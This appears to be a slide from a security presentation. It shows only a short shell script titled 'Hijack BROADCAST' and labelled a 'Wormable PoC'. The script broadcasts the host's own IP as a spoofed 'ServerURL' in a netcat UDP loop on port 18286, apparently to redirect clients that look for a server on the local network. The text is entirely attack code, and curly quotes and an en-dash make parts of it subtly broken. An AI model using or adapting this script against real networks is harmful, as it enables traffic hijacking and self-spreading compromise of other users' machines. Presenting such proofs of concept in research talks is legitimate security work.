

# Hijack BROADCAST
#!/bin/sh
#Wormable PoC
(echo -n ‘ServerURL=http://’; ifconfig eth0 | grep inet| cut -d: -f2 | cut -d' ' -f1) > spoof
while (true); do
    nc –ulw 2 18286 < spoof
done